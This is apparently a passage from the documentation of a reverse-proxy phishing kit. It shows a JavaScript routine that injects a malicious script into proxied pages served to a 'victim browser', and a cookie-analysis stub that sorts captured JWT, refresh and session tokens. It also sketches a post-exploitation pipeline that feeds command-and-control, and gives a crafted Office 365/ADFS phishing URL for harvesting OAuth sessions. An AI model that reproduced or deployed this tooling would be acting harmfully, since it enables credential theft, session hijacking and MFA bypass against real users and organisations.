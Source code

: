 ### **Phase 3: Advanced Proxying**
```
[Proxy Server] → [Content Modification] → [Response Relay] → [Victim Browser]
```

**Content Processing:**
```javascript
function updateHTMLProxyResponse(decompressedResponseBody) {
    const payload = "<script src=/@></script>";
    const htmlInjectionMap = {
        "<head>": `<head>${payload}`,
        "<html>": `<html><head>${payload}</head>`,
        "<body>": `<head>${payload}</head><body>`
    };
    // Injects malicious script into first 200 bytes
}
```

### **Phase 4: Post-Exploitation**
```
[Captured Credentials] → [Cookie-Monster Extraction] → [Advanced Analysis] → [C2 Integration]
```

**Cookie Analysis:**
```javascript
function analyzeCookieValue(cookie) {
    const analysis = {
        type: 'unknown',
        containsJWT: false,
        containsRefreshToken: false,
        containsSessionToken: false,
        length: cookie.value.length,
        encoding: 'unknown'
    };
    
    // Advanced token classification and analysis
    return analysis;
}
```

---

## 🎯 **ADVANCED ATTACK SCENARIOS**

### **Scenario 1: Microsoft Office 365 + ADFS Bypass**
```bash
# Target Office 365 with ADFS integration
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Flogin.microsoftonline.com%2Fcommon%2Foauth2%2Fauthorize%3Fresponse_type%3Dcode%26client_id%3D1fec8e78-bce4-4aaf-ab1b-5451cc387264%26resource%3Dhttps%3A%2F%2Fgraph.microsoft.com%2F%26redirect_uri%3Dhttps%3A%2F%2Flogin.microsoftonline.com%2Fcommon%2Foauth2%2Fnativeclient
```
